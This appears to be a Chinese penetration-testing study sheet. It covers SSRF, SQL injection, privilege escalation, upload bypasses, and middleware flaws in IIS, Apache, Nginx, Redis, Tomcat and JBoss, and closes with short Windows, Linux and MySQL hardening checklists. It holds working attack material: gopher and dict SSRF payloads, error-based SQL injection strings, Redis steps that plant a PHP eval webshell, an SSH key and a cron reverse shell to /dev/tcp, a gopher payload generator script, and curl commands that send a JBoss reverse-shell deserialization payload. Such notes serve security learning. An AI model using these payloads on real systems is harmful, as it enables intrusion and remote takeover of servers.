

[toc]

# 1.csrf,ssrf

Csrf
黑客构造html表单，用户访问后会用自己的浏览器提交表单，造成利用
如何防御：加token，判断header

Ssrf
大都是因为服务端提供了从其他服务器获取数据功能并且没有对目标地址做过滤和限制才造成的
修复方法
可以采取白名单,限制内网Ip。对返回内容进行识别禁用一些不必要的协议统一错误信息，避免用户可以根据错误信息来判断远端服务器的端口状态过滤函数，file_get_contents fsockopen()  curl_exec()

https://www.freebuf.com/articles/web/260806.html

ssrf绕过

1.  **[::]**

2.  利用@

3.  短地址

4.  句号

5.  进制转换

6.  特殊域名：xip.io

7.  其他协议

    ```cpp
    Dict://
    dict://<user-auth>@<host>:<port>/d:<word>
    ssrf.php?url=dict://attacker:11111/
    SFTP://
    ssrf.php?url=sftp://example.com:11111/
    TFTP://
    ssrf.php?url=tftp://example.com:12346/TESTUDPPACKET
    LDAP://
    ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
    Gopher://
    ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a
    ```

一个是客户端请求伪造，一个是服务端请求伪造


# 2.SQL

## 报错注入

报错注入的函数有哪些？ 10个
        1）and extractvalue(1, concat(0x7e,(select @@version),0x7e))
        2）通过floor报错 向下取整
        3）+and updatexml(1, concat(0x7e,(secect @@version),0x7e),1)
        4）.geometrycollection()select * from test where id=1 and geometrycollection((select * from(select * from(select user())a)b));
        5）.multipoint()select * from test where id=1 and multipoint((select * from(select * from(select user())a)b));
        6）.polygon()select * from test where id=1 and polygon((select * from(select * from(select user())a)b));
        7）.multipolygon()select * from test where id=1 and multipolygon((select * from(select * from(select user())a)b));
        8）.linestring()select * from test where id=1 and linestring((select * from(select * from(select user())a)b));
        9）.multilinestring()select * from test where id=1 and multilinestring((select * from(select * from(select user())a)b));
       10）.exp()select * from test where id=1 and exp(~(select * from(select user())a));

## 宽字节

在 mysql 中使⽤了 gbk 编码，占⽤ 2 个字节, ⽽ mysql 的⼀种特性, GBK 是多字节编码，它认为两个字节就代表⼀个汉字（前一个ascii码要大于128，才能到汉子的范围），所以 %df 时候会和转义符 \ %5c 进⾏结合, 所以单引号就逃逸了出来, 当第⼀个字节的 ascii 码⼤于 128，就可

```
空格 %20
单引号，%27
反斜杠 %5C

```

若输入为单引号，经过转移后`\'`，即`%5c%27`，当前面有个大于128的，比如%df，则url编码后，%df%5c%27，若用gbk的话，前两个会被当做汉字处理，后面的%27会绕过

## mysql版本

5.0，以下为多用户但单操作，以上为多用户多操作。


# 2.提权

## Linux

>   http://www.kxsy.work/2022/01/23/linux-ti-quan-zong-jie

1.  内核漏洞。

2.  SUID提权

    1.  https://jlkl.github.io/2020/01/27/Web_15/

3.  GNUClibrary动态链接区$ORIGIN溢出提权

4.  Mysql UDF 提权

    https://www.sqlsec.com/2020/11/mysql.html#toc-heading-10

    https://github.com/Ghostasky/MoonSecStudyNote/blob/main/10.md#4linux-mysql-udf-%E6%8F%90%E6%9D%83

    将udf文件上传，导入到mysql插件目录，执行用户自定义函数

5.  定时任务（crontob）提权

    https://github.com/Ghostasky/MoonSecStudyNote/blob/main/10.md#5linux-cron-jobs%E6%8F%90%E6%9D%83

    https://xz.aliyun.com/t/2401

## win

1.  mysql udf

2.  MOF

    文件每五秒就会执行，而且是系统权限，

3.   lpk劫持提权

    https://blog.51cto.com/u_15127552/4172705?b=totalstatistic

4.  winserver2008R2溢出提权

# 3.序列化反序列化

1.  序列化：把对象转化为可传输的字节序列过程称为序列化。
2.  反序列化：把字节序列还原为对象的过程称为反序列化。


# 4.文件上传

1.  前段js
2.  miime
3.  黑白名单
4.  .htaccess
5.  .user.ini
6.  大小写
7.  ::\$DATA（win：phpinfo.php::\$DATA）
8.  00截断
9.  图片马
10.  条件竞争
11.  数组绕过验证

# 5.中间件

## IIS

### IIS 6.x

1.  该版本 默认会将 *.asp;.jpg 此种格式的文件名，当成Asp解析，原理是 服务器默认不解析; 号及其后面的内容，相当于截断。
2.  该版本 默认会将 *.asp/目录下的所有文件当成Asp解析。
3.  默认会将扩展名为.asa，.cdx，.cer解析为asp，

### IIS 7.x

1.  在Fast-CGI运行模式下,在任意文件，例：test.jpg后面加上/.php，会将test.jpg 解析为php文件
2.  PUT 任意文件写入


### IIS短文件

访问构造的某个存在的短文件名,会返回404,访问构造的某个不存在的短文件名,返回400

查看：`dir /x`

1.当后缀小于4时，短文件名产生需要文件(夹)名前缀字符长度大于等于9位。 

2.当后缀大于等于4时，文件名前缀字符长度即使为1，也会产生短文件名。

支持的http方法：DEBUG、OPTIONS、GET、POST、HEAD、TRACE六种

IIS8.0以下版本需要开启ASP.NET支持，IIS大于等于8.0版本,即使没有安装ASP.NET，通过OPTIONS和TRACE方法也可以猜解成功。

**IIS短文件漏洞局限性**

1)  如果文件名本身太短也是无法猜解的；

2) 此漏洞只能确定前6个字符，如果后面的字符太长、包含特殊字符，很难猜解； 
3) 如果文件名前6位带空格，8.3格式的短文件名会补进，和真实文件名不匹配； 
4) 如果文件夹名前6位字符带点"."，扫描程序会认为是文件而不是文件夹，最终出现误报； 
5) 不支持中文文件名，包括中文文件和中文文件夹。一个中文相当于两个英文字符，故超过4个中文字会产生短文件名，但是IIS不支持中文猜测。

### HTTP.SYS远程代码执行 (MS15-034)

加请求头：

Range: bytes=0-18446744073709551615字段，若返回码状态为416 Requested Range Not Satisfiable，则存在HTTP.SYS远程代码执 行漏洞


## Apache

### 解析漏洞

Apache的解析漏洞依赖于一个特性： Apache默认一个文件可以有多个以点分割的后缀，当最右边的后缀无法识别（不在mime.types文件内），则 继续向左识别，直到识别到合法后缀才进行解析。

如果上传phpinfo.php.jpg，即使文件名中有.php，也会直接解析为jpg。因为Apache认识.jpg,停止继续向左识别。

#### Apache HTTPD 换行解析漏洞（CVE-2017-15715）

2.4.0~2.4.29版本

## shiro反序列化（550,721）

特征：返回包中有rememberMe=deleteme字段


## Nginx

### Nginx配置文件错误导致解析漏洞

对于任意文件名，在后面添加/xxx.php（xxx为任意字符）后,即可将文件作为php解析。 例：info.jpg后面加上/xxx.php，会将info.jpg 以php解析。

### 空字节任意代码执行

影响版本：Nginx 0.5, 0.6,0.7 <= 0.7.65,0.8 <= 0.8.37



## redis

### 未授权访问

写webshell，写ssh公钥，写计划任务

**写webshell**

需开启redis-cli，

```sh
config set dir /var/www/html/ 
config set dbfilename shell.php
set xxx "<?php eval($_POST[whoami]);?>" 
或者
set xxx "\r\n\r\n<?php eval($_POST[whoami]);?>\r\n\r\n"
save
```

之后蚁剑直接连就行。

**写ssh公钥**

首先生成公钥，`ssh-keygen -t rsa`

将公钥导入到key.txt，需要前后换行

```sh
(echo -e "\n\n"; cat /root/.ssh/id_rsa.pub; echo -e "\n\n") > /root/.ssh/key.txt
redis-cli -h 192.168.43.82 -x set xxx
```


```
redis-cli -h 192.168.43.82
config set dir /root/.ssh
config set dbfilename authorized_keys
save
```

**写计划任务**

本地开nc监听。

```sh
redis-cli -h 192.168.142.153
set xxx "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/192.168.xxx.xx/2333 0>&1\n\n"
config set dir /var/spool/cron/crontabs/
config set dbfilename root
save
```


### 未授权访问SSRF

和上面一样，也是三个。

抄的脚本，

```python
import urllib
protocol="gopher://"
ip="192.168.43.82"
port="6379"
shell="\n\n<?php eval($_POST[\"whoami\"]);?>\n\n"
filename="shell.php"
path="/var/www/html"
passwd=""    # 此处也可以填入Redis的密码, 在不存在Redis未授权的情况下适用
cmd=["flushall",
"set 1 {}".format(shell.replace(" ","${IFS}")),
"config set dir {}".format(path),
"config set dbfilename {}".format(filename),
"save"
]
if passwd:
cmd.insert(0,"AUTH {}".format(passwd))
payload=protocol+ip+":"+port+"/_"
def redis_format(arr):
CRLF="\r\n"
redis_arr = arr.split(" ")
cmd=""
cmd+="*"+str(len(redis_arr))
for x in redis_arr:
cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
cmd+=CRLF
return cmd

if __name__=="__main__":
for x in cmd:
payload += urllib.quote(redis_format(x))
print payload
```

执行该脚本后生成payload，为gopher协议，之后要进行两次url编码

直接get发`?url=gopherxxxxx`

剩下两种都是写脚本，然后发。

### 基于主从复制的命令执行

先过。

## tomcat

### 任意文件写入

```
PUT  /1.jsp xx
xxxx
xxxxx

shell
```

### 远程代码执行

在Tomcat\webapps\ROOT\WEB-INF新建cgi目录，并创建lxhsec.bat文件，内容任意。

之后：

`http://xxxxx/cgi-bin/lxhsec.bat&dir`

### 弱口令+后台getshell

写马，传war包

## Jboss

### 5.x/6.x反序列化

`/invoker/readonly`，返回500 ，说明存在。	

[工具](https://github.com/joaomatosf/JavaDeserH2HC)

挑一个gadget：**ReverseShellCommonsCollectionsHashMap.java**

生成class：`javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java`

生成ser：`javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.ser 192.168.xx.xx:xxxx(nc所在的ip)`

直接发：

`curl http://192.168.31.205:8080/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser`

### Jboss JMXInvokerServlet 反序列化

发到/invoker/JMXInvokerServlet接口，ser同上。

``curl http://192.168.31.205:8080/invoker/JMXInvokerServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser``

### JBoss EJBInvokerServlet反序列化

发送到/invoker/EJBInvokerServlet接口，ser还是上面的。

``curl http://192.168.31.205:8080/invoker/EJBInvokerServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser``


### JBoss <=4.x JBossMQJMS反序列化

还是上面的ser，发到/jbossmq-httpil/HTTPServerILServlet接口：

`curl http://192.168.31.205:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser`


# 6.CRLF

即CR（回车，\r，%0d）和换行（LF，\n，%0a）。

http中header和body就是使用两个crlf进行分割的，可造成cookie会话固定和反射xss（可过waf），注入xss，连续使用两个\r\n即可。

# 7.win/Linux 

## 查询远程端口开放

```
tasklist /svc
netstat -ano
```

# 8.代码执行、文件读取，命令执行的函数

```
1）代码执⾏： 
eval,preg_replace+/e,assert,call_user_func,call_user_func_array,create_function 
2）⽂件读取： 
file_get_contents(),highlight_file(),fopen(),read file(),fread(),fgetss(), fgets(),parse_ini_file(),show_source(),file()等 
3)命令执⾏：
system(), exec(), shell_exec(), passthru() ,pcntl_exec(), popen(),proc_open()
```


# 9.Tools

## 1.sqlmap

```sh
-u 指定url
-r 读取需要注入的post请求的文本
-m 批量跑get注入
-p 指定注入参数
--tamper 使用过waf脚本
```


## 2.nmap

```
-sT tcp（全）连接扫描，准确但留下大量日志记录
-sS tcp syn（半）扫描，速度较快，都不会留下日志
-sN null扫描，标志位全为0，不适用Windows
-sF fin扫描，标志位fin=1，不适用Windows
-sV 探测服务版本
-A 全面扫描

```


# 10.Windows安全加固

>   http://www.kxsy.work/2021/11/15/windows-an-quan-jia-gu-shou-ce/
>
>   https://scarletf.github.io/2019/12/15/%E5%AE%89%E5%85%A8%E5%8A%A0%E5%9B%BA-%E5%AE%89%E5%85%A8%E5%9F%BA%E7%BA%BF%E9%85%8D%E7%BD%AE--windows%E7%AF%87/
>
>   https://www.landui.com/help/nshow-10507.html
>
>   https://www.jianshu.com/p/07dbbaf6ca97
>
>   https://cloud.tencent.com/developer/article/1623191
>
>   https://help.aliyun.com/document_detail/49781.html


| 名称             | 快捷启动( win + r ) |
| :--------------- | :------------------ |
| 计算机管理       | compmgmt.msc        |
| 本地安全策略     | secpol.msc          |
| 事件查看器       | eventvwr            |
| 本地组策略编辑器 | gpedit.msc          |
| 系统配置实用程序 | msconfig            |


1.  口令

    1.  密码复杂度
    2.  密码最长留存期
    3.  账户锁定策略（登陆认证次数过多，锁定账户
2.  3389远程登陆端口，注册表修改
3.  账户

    1.  账户锁定。登陆次数过多锁定，（安全策略
    2.  禁用guest账户
    3.  禁用删除其他无用账户
    4.  配置用户登录登出后，不显示用户名称
4.  授权xxx仅admin
    1.  管理员账号改名
    2.  本地关机
    3.  远程关机
    4.  用户权限指派：取得文件或其他对象的所有权
    5.  账户登陆
    6.  从网络访问

5.  日志配置

    1.  审核登陆
    2.  审核策略
    3.  审核对象访问
    4.  审核事件目录服务访问
    5.  审核特权使用功能
    6.  审核系统事件
    7.  审核账户管理
    8.  审核过程追踪
    9.  日志文件大小
6.  备份数据
7.  其他

    1.  杀软
    2.  漏洞
    3.  屏保密码，开启时间
    4.  显示远程登陆空闲断开时间
8.  IP协议安全配置

    1.  启用SYN攻击保护（xxxxx注册表
9.  文件权限
    1.  关闭默认共享（注册表
    2.  共享文件夹授权访问


# 11.Linux 安全加固

>   https://www.freebuf.com/articles/system/250501.html


1.  账户
    1.  口令生存期
    2.  口令复杂度（至少包含x,x,x,，，修改文件
    3.  限制用户登陆
    4.  检查是否有uid==0的用户
    5.  登陆超时限制
    6.  禁用无用账户
    7.  账户锁定
    8.  检查弱口令
2.  协议安全
    1.  openssh升级
    2.  定时任务
    3.  限制ssh登陆
    4.  限制su为root
    5.  异常进程
    6.  关闭无效端口、服务
    7.  防火墙策略
3.  认证权限
    1.  配置用户访问目录最小权限
4.  日志

# 12.mysql安全加固

>   https://help.aliyun.com/document_detail/49568.html


1.  账号
    1.  进制mysql以管理员权限运行
    2.  避免不同用户间共享账号
    3.  删除无关账号
2.  口令
3.  授权
4.  开启日志审计：错误，查询，慢查询，更新，二进制日志
5.  补丁
6.  禁止远程访问
7.  设置可信IP访问控制
8.  连接数设置
9.  


# 13.应急响应


>   http://www.kxsy.work/2021/10/13/zui-shi-yong-de-ying-ji-xiang-ying-bi-ji-si-lu-xiao-jie/


